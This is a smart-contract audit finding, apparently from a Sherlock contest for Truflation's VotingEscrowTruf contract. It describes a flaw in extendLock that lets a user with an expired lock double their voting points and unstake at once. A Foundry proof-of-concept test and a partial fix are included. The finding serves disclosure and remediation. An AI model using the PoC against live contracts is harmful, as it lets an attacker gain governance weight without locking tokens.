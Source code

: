 Joyful Corduroy Albatross

high

# extendLock only extends from oldEnd date

## Summary
extendLock only extends lock for vote escrowed postions from oldEnd date, 

## Vulnerability Detail
Users with existing ve positions can lock their position and relock based on elapsed time since to retain their share of ve positions, without technically having their positions locked.

On line 351 of VotingEscrowTruf.sol:
https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/VotingEscrowTruf.sol#L351

## Impact

## Code Snippet
POC to show how Alice can gain points and retain her veShare and points without having her position being locked.
```solidity
    function testPOC() external {

        uint256 amount = 100e18;
        uint256 duration = 10 days;
        
        uint256 aliceStartingBalance = (trufToken.balanceOf(alice));        
        
        
        _stake(amount, duration, alice, alice);


        vm.startPrank(alice);
        
        // store starting ve points & balances
        (, , , uint256 vePointsStart, ) =
            veTRUF.lockups(alice, 0);
        
        // ve points = balances
        assertEq(vePointsStart, veTRUF.balanceOf(alice));

        vm.warp(block.timestamp + 20 days);


        // alice can immediately unstake after extending
        // veTRUF.unstake(0);
        veTRUF.extendLock(0, 10 days);

        (, , , uint256 vePointsEnd ,) =
            veTRUF.lockups(alice, 0);

        // alice has 2x the points and ve position can unstake immediately
        assertEq(vePointsStart * 2, vePointsEnd);
        assertEq(veTRUF.balanceOf(alice), vePointsEnd);
        veTRUF.unstake(0);
    
        // check balance after unstake same as starting balance
        uint256 aliceEndingBalance = (trufToken.balanceOf(alice));
        
        assertEq(aliceStartingBalance, aliceEndingBalance);
    }        
```
## Tool used

Manual Review

## Recommendation

Account for time elapsed since oldEnd.
```solidity
if (oldEnd < block.timestamp) {
uint256 newEnd = oldEnd + duration + (block.timestamp - oldEnd);
```